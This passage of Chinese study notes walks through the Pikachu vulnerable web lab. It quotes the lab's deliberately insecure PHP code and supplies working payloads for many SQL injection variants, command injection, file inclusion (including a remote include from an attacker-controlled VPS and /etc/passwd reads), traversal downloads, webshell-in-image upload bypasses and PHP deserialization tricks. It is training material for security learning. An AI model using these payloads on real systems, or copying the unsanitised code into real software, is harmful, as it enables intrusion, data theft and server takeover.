- TABLESL 提供了关于数据库中表的信息。
- COLUMNS：提供了表中各列的信息。

**漏洞实验**

这里拿字符型注入实验
```
' or 1=1 order by 1#
' or 1=1 order by 2#
' or 1=1 order by 3#
```

order by 3 时会报错，说明主查询存在2个字段，接着可用union联合查询更多信息

```sql
' union select database(),user() #
' union select table_schema,table_name from information_schema.tables where table_schema='pikachu' #
' union select table_name,column_name from information_schema.columns where table_name='users' #
' union select username,password from users #
```

## insert/update/delete注入
- 这三种情况下不能用union去做联合查询，因为是操作函数

**服务端核心代码**

```php
if(isset($_POST['submit'])){
    if($_POST['username']!=null &&$_POST['password']!=null){
//      $getdata=escape($link, $_POST);//转义

        //没转义,导致注入漏洞,操作类型为insert
        $getdata=$_POST;
        $query="insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1){
            $html.="<p>注册成功,请返回<a href='sqli_login.php'>登录</a></p>";
        }else {
            $html.="<p>注册失败,请检查下数据库是否还活着</p>";

        }
    }else{
        $html.="<p>必填项不能为空哦</p>";
    }
}
```

## 基于函数报错注入_updatexml 

**基于函数报错的信息获取**

select、insert、update、delete

**思路**
- MySQL 中使用一些指定的函数来制造报错，从报错信息中获取设定的信息
- select / insert /update / delete 都可以使用报错来获取信息

**前提条件**
- 后台没有屏蔽数据库报错信息，在语法发生错误时会输出在前端

**三个常用的报错函数**
- updatexml() ：Mysql对XML文档数据进行查询和而修改的XPATH函数
- extractvalue() :  Mysql对XML文档数据进行查询的XPATH函数
- floor() ： Mysql用来取整的函数

**updatexml()**
- updatexml作用：改变(查找并替换)XML文档中符合条件节点的值
- 语法:UPDATEXML (XML_document, XPath_string, new_value)
    > XML_document是string格式，为XML文档对象名称 
    > XPath_string(Xpath格式的字符串)
    > new_value，String格式，替换查找到的符合条件的数据

**漏洞实验**

这里用pikachu的字符型注入做实验

```sql
' and updatexml(1, concat(0x7e, version()), 0)#
' and updatexml(1, concat(0x7e, database()), 0)#
' and updatexml(1, concat(0x7e, (select table_name from information_schema.tables where table_schema='pikachu' limit 0,1)), 0)#
' and updatexml(1, concat(0x7e, (select column_name from information_schema.columns where table_name='users' limit 0,1)), 0)#
' and updatexml(1, concat(0x7e, (select username from users limit 0,1)), 0)#
' and updatexml(1, concat(0x7e, (select password from users where username = 'admin' limit 0,1)), 0)#
```

## insert注入
**漏洞原理**
insert 注入是指我们前端注册的信息，后台会通过 insert 这个操作插入到数据库中。如果后台没对我们的输入做防 SQL 注入处理，我们就能在注册时通过拼接 SQL 注入。

**服务端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['username']!=null &&$_POST['password']!=null){
//      $getdata=escape($link, $_POST);//转义

        //没转义,导致注入漏洞,操作类型为insert
        $getdata=$_POST;
        $query="insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1){
            $html.="<p>注册成功,请返回<a href='sqli_login.php'>登录</a></p>";
        }else {
            $html.="<p>注册失败,请检查下数据库是否还活着</p>";

        }
    }else{
        $html.="<p>必填项不能为空哦</p>";
    }
}
```

## Update注入

**服务端核心代码**

```php
if(isset($_POST['submit'])){
    if($_POST['sex']!=null && $_POST['phonenum']!=null && $_POST['add']!=null && $_POST['email']!=null){
//        $getdata=escape($link, $_POST);

        //未转义,形成注入,sql操作类型为update
        $getdata=$_POST;
        $query="update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}'";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1 || mysqli_affected_rows($link)==0){
            header("location:sqli_mem.php");
        }else {
            $html1.='修改失败,请重试';

        }
    }
}
```

payload:
```
kite' or updatexml(1,concat(0x7e,database()),0) or'
```


**漏洞测试**

在用户注册的必填项两处：用户输入单引号，密码随意，页面报错信息，说明该页面存在注入漏洞。




说明后台语句可能如下：（可用or语句进行闭合）
```
insert into member(username,pw,sex,phonenum,email,adderss) values('kite', 123, 1, 2, 3, 4);
```
构造如下payload: 基于insert下的报错注入

```
kite' or updatexml(1,concat(0x7e,database()),0) or'
```
## delete注入
**服务端核心代码**

```php
// if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){
//没对传进来的id进行处理,导致DEL注入
if(array_key_exists('id', $_GET)){
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        header("location:sqli_del.php");
    }else{
        $html.="<p style='color: red'>删除失败,检查下数据库是不是挂了</p>";
    }
}
```

**漏洞利用**

burpsuite抓包留言板删除键,实际上是传递了一个留言的id参数，后台会根据这个参数去操作。

后台语句一般为:
```
delete from message where id=1
```

注意，这里burpsuite对传入的url需要urlencode编码，否则会报400错误



payload: ``1 or updatexml(1, concat(0x7e,database()), 0) ``


**其它报错函数**
``' and extractvalue(1, concat(0x7e,database())) #``
``' and (select 2 from (select count(*), concat(version(), floor(rand(0) * 2))x from information_schema.tables group by x)a)#``

## http-header注入
**漏洞原理**
某些情况下，后台开发人员为了验证客户端头信息(如cookie验证)
或者通过http header获取客户端的一些信息，如user-agent,accept字段等。

会对客户端的http header信息进行获取并使用SQL进行处理，此时若没有安全措施，则可能会导致基于http header的SQL注入漏洞。

**服务端核心代码**
```php
if(isset($_GET['logout']) && $_GET['logout'] == 1){
    setcookie('ant[uname]','',time()-3600);
    setcookie('ant[pw]','',time()-3600);
    header("location:sqli_header_login.php");
}
?>
```
**漏洞利用**
> pikachu测试专用账号密码：admin/123456



抓包，尝试将User-Agent清空，输出单引号测试，页面报错信息，存在注入漏洞。

payload:``kite' or updatexml(1,concat(0x7e,database ()),0) or '``

>> 这里的Cookie也是可以注入的

## 盲注(base_on_boolian)

**漏洞原理**

后台使用了屏蔽错误报告，所以无法根据报错信息来进行注入判断，因此此时注入成为``盲注``。

**判断网站是否存在盲注特征**

- 没有报错信息
- 正确输入与错误输入都只有两种情况(可以看作0 or 1)
- 在正确的输入下，后面跟着and 1= 1/and1 =2 来判断

**手工盲注步骤**
```
1.判断是否存在注入,注入是字符型还是数字型
2.猜解当前数据库名
3.猜解数据库中的表名
4.猜解表中的字段名
5.猜解数据
```
**服务端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    $name=$_GET['name'];//这里没有做任何处理,直接拼到select里面去了
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    //mysqi_query不打印错误描述,即使存在注入,也不好判断
    $result=mysqli_query($link, $query);//
//     $result=execute($link, $query);
    if($result && mysqli_num_rows($result)==1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```
**漏洞利用**

这里需要一个存在的账户，这里用kobe账号测试。

```
说明存在字符型注入
kobe' and 1=1#    正确执行
kobe' and 1=2#    显示用户名不存在

判断数据库名称长度
kobe' and length(database())>5#  正确执行
kobe' and length(database())>7#  显示用户名不存着

用substr()、asscii函数判断数据库由哪些字母组成(二分法)
kobe' and ascii(substr(database(), 1, 1)) > 113#
kobe' and ascii(substr(database(), 1, 1)) > 105#
kobe' and ascii(substr(database(), 1, 1)) = 112#

判断表名长度
kobe' and  length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,100)) = 8#

猜解表面
kobe' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 113#
kobe' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) =104#

```

同样方法去猜解列名、数据，手工比较麻烦，多用工具或者脚本方便一些。
## 盲注(base_on_time)
**漏洞原理**

基于真假的盲注可以看到回显信息，即正确 or 错误
基于时间的注入就看不到了，可以通过特定输入，判断后台执行时间，用到sleep()函数

**服务端核心代码**

```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    $name=$_GET['name'];//这里没有做任何处理,直接拼到select里面去了
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    $result=mysqli_query($link, $query);//mysqi_query不打印错误描述
//     $result=execute($link, $query);
//    $html.="<p class='notice'>i don't care who you are!</p>";
    if($result && mysqli_num_rows($result)==1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            //这里不管输入啥,返回的都是一样的信息,所以更加不好判断
            $html.="<p class='notice'>i don't care who you are!</p>";
        }
    }else{

        $html.="<p class='notice'>i don't care who you are!</p>";
    }
}
```

payload:``123' and if(length(database())=7,sleep(5),1) #``

## 宽字节注入
**漏洞原理**

输入有单引号时会被转义成``\'``,无法构造SQL语句，这时候用到了宽字节注入

前提条件是数据库被设置为GBK编码，反斜杆的编码为``%5c``,而``%df%5c``就是繁体字"連"

**服务端核心代码**
```php
if(isset($_POST['submit']) && $_POST['name']!=null){

    $name = escape($link,$_POST['name']);
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    //设置mysql客户端来源编码是gbk,这个设置导致出现宽字节注入问题
    $set = "set character_set_client=gbk";
    execute($link,$set);

    //mysqi_query不打印错误描述
    $result=mysqli_query($link, $query);
    if(mysqli_num_rows($result) >= 1){
        while ($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{
        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```


```bash
# 测试payload
lili%df' or 1=1 #
lili%df' union select user(),database() #
lili%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

## RCE

**漏洞概述**
RCE(remote command/code execute)

RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

远程系统命令执行
一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口
比如我们常见的路由器、防火墙、入侵检测等设备的web管理界面上
一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。 而，如果，设计者在完成该功能时，没有做严格的安全控制，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器

远程代码执行
同样的道理,因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行,也就造成了远程代码执行漏洞。 不管是使用了代码执行的函数,还是使用了不安全的反序列化等等。
因此，如果需要给前端用户提供操作类的API接口，一定需要对接口输入的内容进行严格的判断，比如实施严格的白名单策略会是一个比较好的方法。
你可以通过“RCE”对应的测试栏目，来进一步的了解该漏洞。

## exec之"ping"
**服务端核心代码**
```php
if(isset($_POST['submit']) && $_POST['ipaddress']!=null){
    $ip=$_POST['ipaddress'];
//     $check=explode('.', $ip);可以先拆分,然后校验数字以范围,第一位和第四位1-255,中间两位0-255
    if(stristr(php_uname('s'), 'windows')){
//         var_dump(php_uname('s'));
        $result.=shell_exec('ping '.$ip);//直接将变量拼接进来,没做处理
    }else {
        $result.=shell_exec('ping -c 4 '.$ip);
    }
}
```

**思路**

可以尝试通过 &、&&、|、||、;等符号拼接执行命令

payload : ``127.0.0.1 & ipconfig``
## exec之"eval"
**服务端核心代码**
```php
if(isset($_POST['submit']) && $_POST['txt'] != null){
    if(@!eval($_POST['txt'])){
        $html.="<p>你喜欢的字符还挺奇怪的!</p>";
    }
}
```

eval会把输入的字符串当作字符串来执行。必须是合法的字符串且以分号结尾。


**漏洞利用**

payload:``phpinfo();``
## File_Inclusion

**漏洞概述**

在 Web 后台开发中，程序员往往为了提高效率以及让代码看起来更加简洁，会使用 “包含” 函数功能。比如把一系列功能函数都写进 ``function.php`` 中，之后当某个文件需要调用的时候直接在文件头中写上一句`` <?php include function.php?>``就可以调用函数。

但有些时候，因为网站功能需求，会让前端用户选择需要包含的文件（或者在前端的功能中使用了“包含”功能），又由于开发人员没有对要包含的这个文件进行安全考虑，就导致攻击者可以通过修改文件的位置来让后台执行任意文件（代码）。直接传变量给包含函数，如果非要这么做，也一定要做严格的白名单策略进行过滤。

**包含函数**
- require 会生成致命错误（ E_COMPILE_ERROR ）并停止脚本
- include 只生成警告（ E_WARNING ），并且脚本会继续
### 本地文件包含

**服务端核心代码**
```
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "include/$filename";//变量传进来直接包含,没做任何的安全限制
//     //安全的写法,使用白名单,严格指定包含的文件名
//     if($filename=='file1.php' || $filename=='file2.php' || $filename=='file3.php' || $filename=='file4.php' || $filename=='file5.php'){
//         include "include/$filename";

//     }
}
```
```Linux
../../../../../../../../etc/passwd
```

```Windows
../../../../Windows/System32/drivers/etc/hosts
```

### 远程文件包含
- 前提条件：
    ```
    allow_url_fopen = on  
    allow_url_include = on
    ```

payload:`` http://<目标ip>/pikachu/vul/fileinclude/fi_remote.php?filename=http://<your-VPS>/phpinfo.php&submit=%E6%8F%90%E4%BA%A4``


## Unsafe_file_downloads

**漏洞概述**

文件下载功能在很多web系统上都会出现，一般我们当点击下载链接，便会向后台发送一个下载请求，一般这个请求会包含一个需要下载的文件名称，后台在收到请求后 会开始执行下载代码，将该文件名对应的文件response给浏览器，从而完成下载。 如果后台在收到请求的文件名后,将其直接拼进下载文件的路径中而不对其进行安全判断的话，则可能会引发不安全的文件下载漏洞。
此时如果 攻击者提交的不是一个程序预期的的文件名，而是一个精心构造的路径(比如../../../etc/passwd),则很有可能会直接将该指定的文件下载下来。 从而导致后台敏感信息(密码文件、源代码等)被下载。
所以，在设计文件下载功能时，如果下载的目标文件是由前端传进来的，则一定要对传进来的文件进行安全考虑。 切记：所有与前端交互的数据都是不安全的，不能掉以轻心！

**漏洞利用**
可结合目录遍历下载漏洞

payload: ``http://<you-ip>/pikachu/vul/unsafedownload/execdownload.php?filename=../../../inc/config.inc.php``

``http://<you-ip>/pikachu/vul/unsafedownload/execdownload.php?filename=../../../../../../../../etc/passwd``

## Unsafe_file_uploads

**漏洞概述**
Web站点有很多文件上传的接口，如：
- 注册时上传头像图片(jpg,png,gif)
- 上传文件附件(doc,xls)

而在后台开发时，并没有对上传的文件进行安全考虑，或者采用了有缺陷的措施，导致攻击者可以通过一些手段绕过安全措施从而上传一些恶意文件（如：一句话木马）

从而通过对该恶意文件的访问来控制整个 Web 后台

**测试流程**
- 对文件上传的地方按照要求上传文件，查看返回结果（路径，提示等）
- 尝试上传不同类型的"恶意"文件，比如 xx.php 文件，分析结果
- 查看 html 源码，看是否通过 js 在前端做了限制，可以绕过
- 尝试使用不同方式进行绕过：黑白名单绕过 / MIME类型绕过 / 目录0x00截断绕过等(PHP 版本<5.3.4)
- 猜测或者结合其他漏洞（比如敏感信息泄露等）得到木马路径，连接测试
### client_check

**服务端核心代码**

```php
if(isset($_POST['submit'])){
//     var_dump($_FILES);
    $save_path='uploads';//指定在当前目录建立一个目录
    $upload=upload_client('uploadfile',$save_path);//调用函数
    if($upload['return']){
        $html.="<p class='notice'>文件上传成功</p><p class='notice'>文件保存的路径为:{$upload['new_path']}</p>";
    }else{
        $html.="<p class=notice>{$upload['err1or']}</p>";
    }
}
```

**漏洞利用**

这里只允许图片上传，查看源代码



可见只做了前端限制，直接抓包上传改后缀名可上传成功


### MIME_type

**漏洞概述**

MIME（Multipurpose Internet Mail Extensions）多用途互联网邮件扩展类型。是设定某种扩展名的文件用一种应用程序来打开的方式类型，当该扩展名文件被访问时，浏览器会自动使用指定应用程序来打开。多用于指定一些客户端自定义的文件名，以及一些媒体文件打开方式。

一个MIME类型由两部分组成，前面是数据的大类别，例如声音audio、图象image等，后面定义具体的种类。常见的 MIME 类型，比如：

- 超文本标记语言：.html，.html text.html
- 普通文件：.txt text/plain
- RTF文件：.rtf application/rtf
- GIF图形：.gif image/gif
- JPEG图形：.jpeg，.jpg image/jpeg

$_FILES()函数
它从浏览器的HTTP头里获取 Content-Type ，这个 Content-Type 前端用户是可以控制的

通过使用 PHP 的全局数组 $_FILES，你可以从客户计算机向远程服务器上传文件

第一个参数是表单的 input name，第二个下标可以是 “name”，“type”，“size”，“tmp_name” 或 “error”，就像这样：

```php
$_FILES['file']['name']：被上传文件的名称
$_FILES['file']['type']：被上传文件的类型
$_FILES['file']['size']：被上传文件的大小
$_FILES['file']['tmp_name']：存储在服务器的文件的临时副本的名称
$_FILES['file']['error']：由文件上传导致的错误代码
```

**漏洞利用**
上传php一句话木马

抓包修改Conent-type为image/png 文件上传成功。
### getimagesize

**漏洞概述**
getimagesize() 返回结果中有文件大小和文件类型，如果用这个函数来获取类型，从而判断是否是图片的话，会存在问题。

它读取目标文件的 16 进制的头几个字符串，看符不符合图片要求，固定的图片文件前面几个字符串是一样的

但是图片头可以被伪造，因此还是可以被绕过

**漏洞利用**
- 用windows下cmd的copy命令制作一句话木马，命令如下:
```dos
copy /b test.png + muma.php cccc.png
```

首先随便百度找一张png图片(其它gif,jpg也可以根据实际情况使用)

上传成功后，由于是图片后缀，并不能触发，可结合文件包含利用

payload:
```
http://192.168.86.129/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/2021/03/30/1384286062851d9dab2844332312.jpg&submit=%E6%8F%90%E4%BA%A4
```

## over_permission

**概述**

如果使用A用户的权限去操作B用户的数据，A的权限小于B的权限，如果能够成功操作，则称之为越权操作。 越权漏洞形成的原因是后台使用了 不合理的权限校验规则导致的。
一般越权漏洞容易出现在权限页面（需要登录的页面）增、删、改、查的的地方，当用户对权限页面内的信息进行这些操作时，后台需要对 对当前用户的权限进行校验，看其是否具备操作的权限，从而给出响应，而如果校验的规则过于简单则容易出现越权漏洞。
因此，在在权限管理中应该遵守：
1.使用最小权限原则对用户进行赋权;
2.使用合理（严格）的权限校验规则;
3.使用后台登录态作为条件进行权限判断,别动不动就瞎用前端传进来的条件;

### 水平越权

**漏洞概述**

A用户和B用户属于同一级别用户，但各自不能操作对方个人信息。A用户如果越权操作B用户个人信息的情况称为水平越权操作。


**漏洞利用**

观察URL可发现参数username,尝试修改其他人名称可查看他人信息，无需登录




### 垂直越权

**漏洞概述**

A用户权限高于B用户，B用户越权操作A用户的权限的情况称为垂直越权。

**漏洞利用**

先登录admin/123456，点击添加用户抓包，转发到repeater，然后退出换上普通用户的pikachu/000000的coookie，发现仍然可以执行repeater的包,test123重复创建。



## 目录遍历
**漏洞概述**
```
在web功能设计中,很多时候我们会要将需要访问的文件定义成变量，从而让前端的功能便的更加灵活。 当用户发起一个前端的请求时，便会将请求的这个文件的值(比如文件名称)传递到后台，后台再执行其对应的文件。 在这个过程中，如果后台没有对前端传进来的值进行严格的安全考虑，则攻击者可能会通过“../”这样的手段让后台打开或者执行一些其他的文件。 从而导致后台服务器上其他目录的文件结果被遍历出来，形成目录遍历漏洞。
看到这里,你可能会觉得目录遍历漏洞和不安全的文件下载，甚至文件包含漏洞有差不多的意思，是的，目录遍历漏洞形成的最主要的原因跟这两者一样，都是在功能设计中将要操作的文件使用变量的 方式传递给了后台，而又没有进行严格的安全考虑而造成的，只是出现的位置所展现的现象不一样，因此，这里还是单独拿出来定义一下。
需要区分一下的是,如果你通过不带参数的url（比如：http://xxxx/doc）列出了doc文件夹里面所有的文件，这种情况，我们成为敏感信息泄露。 而并不归为目录遍历漏洞。（关于敏感信息泄露你你可以在"i can see you ABC"中了解更多）
```

payload:``http://<IP address !!!>/pikachu/vul/dir/dir_list.php?title=../../../../../../../../../etc/passwd``
## 敏感信息泄露

由于后台人员的疏忽或者不当的设计，导致不应该被前端用户看到的数据被轻易的访问到。 比如：
- 通过访问url下的目录，可以直接列出目录下的文件列表;
- 输入错误的url参数后报错信息里面包含操作系统、中间件、开发语言的版本或其他信息;
- 前端的源码（html,css,js）里面包含了敏感信息，比如后台登录地址、内网接口信息、甚至账号密码等;
类似以上这些情况，我们成为敏感信息泄露。敏感信息泄露虽然一直被评为危害比较低的漏洞，但这些敏感信息往往给攻击着实施进一步的攻击提供很大的帮助,甚至“离谱”的敏感信息泄露也会直接造成严重的损失。 因此,在web应用的开发上，除了要进行安全的代码编写，也需要注意对敏感信息的合理处理。
## 序列化与反序列化
### 常见的魔法方法
```
__construct()//创建对象时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__invoke() //当脚本尝试将对象调用为函数时触发
```

### Easy CTF
```php
<?php  
  
error_reporting(0);
include "flag.php";
$red = "Hello!!!";
$blue = $_GET['blue'];
if(isset($blue)){
	if(unserialize($blue) === $red)
	{
		echo $flag;
	}else
	{
		echo "Sorry bad";
	}
}
	highlight_file(__FILE__);

## payload: ?blue=s:8:"Hello!!!";
```

### Medium CTF
- 漏洞编号CVE-2016-7124
- PHP5 < 5.6.25
- PHP7 < 7.0.10
```php
# 示例
error_reporting(0);
class hodoger{
	
	public $a = 'nice to meet u';
	
	function __destruct()
	{
		echo 'Do not '.$this->a .PHP_EOL;
	}
	
	function __wakeup()
	{
		echo "hello".PHP_EOL;
	}
}
 
$b = 'O:7:"hodoger":2:{s:1:"a";s:14:"nice to meet u";}';
unserialize($b);
```

```php
## 中等难度题 绕过wakeup()
<?php

error_reporting(0);
class Nantong{
    var $nan = "hello";

    function __destruct(){
        $fp = fopen("file.php","w");
        fputs($fp,$this->nan);
        fclose($fp);
    }
 
    function __wakeup()
        {
            foreach(get_object_vars($this) as $a => $b) {
                    $this->$a = null;
            }
        }
}

highlight_file(__FILE__);
$kite = $_GET['kite'];

unserialize($kite);
```

### Difficult CTF
- Session 反序列化漏洞
